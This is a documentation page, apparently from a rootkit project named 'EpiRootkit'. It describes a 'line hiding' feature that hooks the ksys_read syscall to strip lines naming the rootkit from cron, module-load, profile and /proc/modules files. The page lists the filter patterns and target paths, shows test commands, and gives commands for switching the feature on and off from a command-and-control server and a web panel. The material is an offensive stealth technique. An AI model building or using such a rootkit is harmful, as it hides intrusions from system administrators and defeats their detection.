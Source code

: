 ```yaml
---
title: "Line Hiding"
description: "Hide rootkit lines from file contents using syscall interception"
icon: "edit"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 516
---
```




## Implementation

```c
static const char * const hide_line_patterns[] = {
    "epirootkit",
    "jules_est_bo_",
    "EpiRootkit",
    "modprobe epirootkit",
    "insmod epirootkit"
};

// Target directories
"/etc/cron.d/"
"/etc/modules-load.d/"
"/etc/profile.d/"
"/proc/modules"
```

Hooks `ksys_read` syscall and filters lines containing rootkit patterns from target files.

## Module Hiding Complement

**Module Hiding**: Removes module from kernel list (affects `lsmod`)  
**Line Hiding**: Filters `/proc/modules` content when read

Combined, they provide comprehensive module stealth.

## Testing

```bash
# Test with provided file
sudo cp test_line_hiding_epirootkit.txt /etc/cron.d/test_epirootkit
cat /etc/cron.d/test_epirootkit
# Result: 24 lines → ~9 lines (rootkit patterns filtered)

# Test module information
cat /proc/modules | grep epirootkit
# Output: (nothing when line hiding active)
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
enable-line-hiding Client-1    # Enable hiding
disable-line-hiding Client-1   # Disable hiding
status Client-1                # Check state
```